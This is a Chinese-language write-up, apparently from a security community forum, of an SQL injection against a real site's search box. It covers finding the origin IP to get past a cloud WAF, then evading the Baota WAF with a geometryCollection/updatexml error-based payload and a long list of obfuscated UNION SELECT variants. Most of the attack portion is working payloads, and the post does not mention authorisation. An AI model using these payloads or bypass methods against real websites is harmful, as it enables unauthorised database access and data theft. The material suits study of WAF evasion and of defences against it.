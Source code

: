 

# 奇安信攻防社区 - 记一次 SQL 注入绕过宝塔 + 云 waf

### 记一次 SQL 注入绕过宝塔 + 云 waf

话不多说，上干货

## **0x01 多重 waf 绕过**

注入点搜索框

![](assets/1703831645-579f3bacb474299c3fd227ea82560684.png)

单双引号进行测试  
看看是字符型的还是数字型的，发现是字符型![](assets/1703831645-2dd7db655cad939059bb2e52cb096d09.png)

![](assets/1703831645-5313b6f191fecd8d6a4da71e3a359d89.png)

准备上语句发现有宝塔 waf+ 云 waf

![](assets/1703831645-336f881f44961bcbdd277cdb4f7e49a0.png)

![](assets/1703831645-980ece5b1fb23e438794d8b771cf43b2.png)

**0x02 过云 waf**

首先看看有无 cdn 节点

![](assets/1703831645-e75296f1408db8c82b5ae1703801ea15.png)

全球 ping

![](assets/1703831645-082267e2763ebaa4dd220ad861babe98.png)

发现这两个没有回应真实 ip，就去看看用 fofa 或者 hunter 来在真实 ip，hunter 上面显示 183 是云厂商肯定是云 waf，不能用这个 ip

![](assets/1703831645-a35249814d4e26e5116db1248753588d.png)

之后在看 fofa 上面能不能找到真实 ip

![](assets/1703831645-ed9ec442847e9ed707aad672074dbb57.png)发现这个 ip 跟历史解析记录是同一个 c 段的

![](assets/1703831645-b713d21bab5be9da8f51200c70709676.png)

然后用拦截云 waf 的语句来试试，发现无云 waf 显示

![](assets/1703831645-0cb98f7a8ba263f2042b0a3c25985398.png)

![](assets/1703831645-c40f05f34e3875d96aaa8f88a4d817ec.png)

**找云 waf 的几种方式**

`1. 通过全球ping``2. 找历史解析记录``3. 通过fofa或者hunter空间引擎来搜索``4.  通过历史解析记录扫c段`

## **0x03 过宝塔 waf**

## **1.报错注入**

首先判断出字符型的话，就得去测试’||||’ ‘or+or’的语句，但是我发现他这里只要是在两个 or 之间出现东西，就一定会触发宝塔 waf

![](assets/1703831645-58fcc768787280c5d8b6416cb762750a.png)

当时试了很多思路，发现可以’;%00 方法，还有可以加--+注释符的，但是尝试之后只有--+可以正常回显

![](assets/1703831645-30a13d4751ff38ee23a8fe3a619ecfb2.png)

![](assets/1703831645-2c35d4e71403ee90999b4dd40c93fae8.png)

其实这里最初的思路根本不是什么’||||’，这里是按照 1’||1=1 来测试

![](assets/1703831645-641d2f4952bf9531c4e8de315efc473f.png)

然后尝试想把 1=1，后面这个 1 能不能换成报错函数之类的，发现直接被拦

![](assets/1703831645-35210cfdfc5b4307582c7c187cdfd687.png)

所以我猜测这个是不是有可能把 mysql 所有的报错函数都给拦了一下，尝试其他的报错函数看看

exp

![](assets/1703831645-3c2b87f4849adbf6329bdced376485c1.png)

floor

![](assets/1703831645-48a110c250fff1436df44529d27d101b.png)

`例如：``Polygon，GeometryCollection，MultiPoint，MultiLineString``我发现这几个都没有过滤，可能就过滤了平常可见的报错函数`

![](assets/1703831645-88cbd89729bfcfa789f501cc12a43aa3.png)

既然这函数可以用，那我们就开始构造语句试试，正常的语句用不了，那我们就玩点不正常的

![](assets/1703831645-10d8612088d341a2e87620ed832736bf.png)

看看这函数怎么搞的，把里面的语句替换成 1，看看哪里出了问题，发包，发现他这个 1 直接爆出来了

![](assets/1703831645-b9b0fb18c6993c380fce42d4f35806a0.png)

尝试能不能 select database() 这样，把库名搞出来

![](assets/1703831645-d3f1e162b170f3ee1707b5611adfdc3f.png)

发现还是不行  
可能是因为 database() 后面跟着--没有闭合的原因，加个||’来试试能不能闭合

![](assets/1703831645-468bec648902583bcb9856275bbf2bcb.png)

emmm，还是不行  
既然 select database() 不行，那就试试再套一层报错函数，看看能不能行

`Pyload：1'||1=geometryCollection(updatexml(1,concat(0x7e,database(),0x7e),1))--+`

发包

![](assets/1703831645-5e9a77b58aaaba0164f9a126d1aa0738.png)

哟西，果然能行，出库名了，成功绕过 waf

## **2.联合注入**

直接'ordre by xx --+

正常判断出库名，17 正常 18 报错

![](assets/1703831645-63e7268d2f97a3b67ce2a57968b0158f.png)

![](assets/1703831645-636624de54cbebd98c3c66ad7949a74b.png)

然后 fuzz union select 函数，尝试太多截图就不放了，直接快进到最后一步

```php
/*!%55NiOn*/ /*!%53eLEct*/ %55nion(%53elect 1,2,3)-- - +union+distinct+select+ +union+distinctROW+select+ /**//*!12345UNION SELECT*//**/ /**//*!50000UNION SELECT*//**/ /**/UNION/**//*!50000SELECT*//**/ /*!50000UniON SeLeCt*/ union /*!50000%53elect*/ +#uNiOn+#sEleCt +#1q%0AuNiOn all#qa%0A#%0AsEleCt /*!%55NiOn*/ /*!%53eLEct*/ /*!u%6eion*/ /*!se%6cect*/ +un/**/ion+se/**/lect uni%0bon+se%0blect %2f**%2funion%2f**%2fselect union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A REVERSE(noinu)+REVERSE(tceles) /*--*/union/*--*/select/*--*/ union (/*!/**/ SeleCT */ 1,2,3) /*!union*/+/*!select*/ union+/*!select*/ /**/union/**/select/**/ /**/uNIon/**/sEleCt/**/ /**//*!union*//**//*!select*//**/ /*!uNIOn*/ /*!SelECt*/ +union+distinct+select+ +union+distinctROW+select+ +UnIOn%0d%0aSeleCt%0d%0a UNION/*&test=1*/SELECT/*&pwn=2*/ un?+un/**/ion+se/**/lect+ +UNunionION+SEselectLECT+ +uni%0bon+se%0blect+ %252f%252a*/union%252f%252a /select%252f%252a*/ /%2A%2A/union/%2A%2A/select/%2A%2A/ %2f**%2funion%2f**%2fselect%2f**%2f union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A /*!UnIoN*/SeLecT+  %55nion(%53elect)   union%20distinct%20select   union%20%64istinctRO%57%20select   union%2053elect   %23?%0auion%20?%23?%0aselect   %23?zen?%0Aunion all%23zen%0A%23Zen%0Aselect   %55nion %53eLEct   u%6eion se%6cect   unio%6e %73elect   unio%6e%20%64istinc%74%20%73elect   uni%6fn distinct%52OW s%65lect
```

Pyload：

`union+distinctROW+select`

![](assets/1703831645-f6437c66a6b437551ca2d7a135929477.png)

开始构造，pyload 如图，发包

![](assets/1703831645-6ee1ffe8381a11c56fb1525b31c2fcd1.png)

成功绕过
